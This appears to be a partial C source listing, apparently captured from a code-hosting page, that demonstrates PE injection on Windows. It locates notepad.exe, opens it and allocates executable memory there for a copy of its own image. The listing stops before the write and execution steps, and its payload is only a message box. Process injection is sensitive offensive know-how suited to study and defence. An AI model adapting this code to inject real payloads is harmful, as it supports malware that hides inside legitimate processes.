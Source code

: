 ```C
DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
    // the name of the PE
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName)); 
	MessageBoxA(NULL, moduleName, "Ssssssimple PE Injection", NULL);
	return 0;
}

int main()
{

	HANDLE         hSnap;
    // information about the running processes
    PROCESSENTRY32 pe32;
    DWORD          dwPid=0;
    // Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Search for the running processes 
    // create snapshot of system
    hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if(hSnap == INVALID_HANDLE_VALUE) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);
    // get first process and loop
    if(Process32First(hSnap, &pe32)){
      do {
          // check if it corresponds to notepad.exe
        if (lstrcmpi("notepad.exe", pe32.szExeFile)==0) {
          dwPid = pe32.th32ProcessID;
          break;
        }
      } while(Process32Next(hSnap, &pe32));
    }
    if(!dwPid){
        // return with error
        return 1;
    }
    printf("[+] PID to inject in: %d \n",dwPid);
    CloseHandle(hSnap);

    // Open the target process - this is process we will be injecting this PE into
    HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, dwPid);
	// Allocate a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
```